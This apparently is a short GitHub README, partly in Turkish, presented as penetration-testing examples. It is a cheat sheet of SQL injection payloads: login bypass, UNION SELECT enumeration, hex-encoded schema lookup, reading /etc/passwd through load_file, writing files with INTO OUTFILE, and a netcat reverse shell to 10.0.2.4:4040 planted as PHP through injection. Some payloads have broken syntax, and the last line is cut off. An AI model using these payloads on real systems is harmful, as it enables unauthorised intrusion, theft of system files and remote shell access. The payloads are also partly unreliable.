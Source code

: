 # SQLBypass-Penetration

## SQL Injection ve Active Directory Penetration Testing Örnekleri

### Temel SQL Injection

#### Örnek 1: Basit SQL Injection

### sql
#SELECT * FROM accounts WHERE username=david AND password='1234' AND 1=1#

### Exam 2: Login Bypass

# SELECT * FROM accounts WHERE username='david'# AND password='1234'

### Exam 3: OR Operatörü

# SELECT * FROM accounts WHERE username='david' AND password='1234' OR 1=1#

### Exam 4: SQL Injection Get Method

# http://example.com/login?username=david' OR '1'='1&password=1234

### UNION SELECT İşlemleri

#Exam 5: UNION SELECT Basic Usage

# username='david' UNION SELECT 1,2,3,4,5#

### Exam 6: Advanced Level SQL Injection

# 1' AND 1=1#
# 1' ORDER BY 1,2,3--+
# 1' GROUP BY 1,2,3--+
# ' UNION SELECT sum(columnname) from tablename--

### Get HEX

## Exam 7: HEX İle SQL Injection

# david' union select 1,table_name from information_schema.tables where table_schema = 0x64767761#

### Örnek 8: Read File

# 1' union select 1,load_file('/etc/passwd')#

### Exam 9: Write File

# 1' union select 1,'test',into outfile 'tmp/test.txt'#

### sql vulnerability Get Shell

# Exam 10: PHP Reverse Shell

# <?passthru("nc 10.0.2.4 4040 -e /bin/bash");?>

# 1' union select 1,'<?passthru("nc 10.0.2.4 4040 -e /bin/bash");?>',into outfile 'tmp/mys
